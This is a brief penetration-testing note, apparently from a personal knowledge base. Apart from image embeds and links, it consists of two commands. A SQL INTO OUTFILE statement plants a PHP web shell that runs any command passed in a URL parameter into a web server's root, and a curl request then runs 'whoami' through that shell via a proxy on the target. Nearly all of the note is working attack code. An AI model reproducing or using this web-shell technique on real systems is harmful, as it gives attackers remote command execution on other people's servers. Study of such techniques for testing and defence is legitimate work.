 ![[Pasted image 20221108115238.png]]

```
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:/wamp/www/shelly.php';
```

![[Pasted image 20220610141248.png]]

```
curl "http://127.0.0.1:8080/shelly.php?cmd=whoami" --proxy $TARGET:3128 
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[rlwrap]]
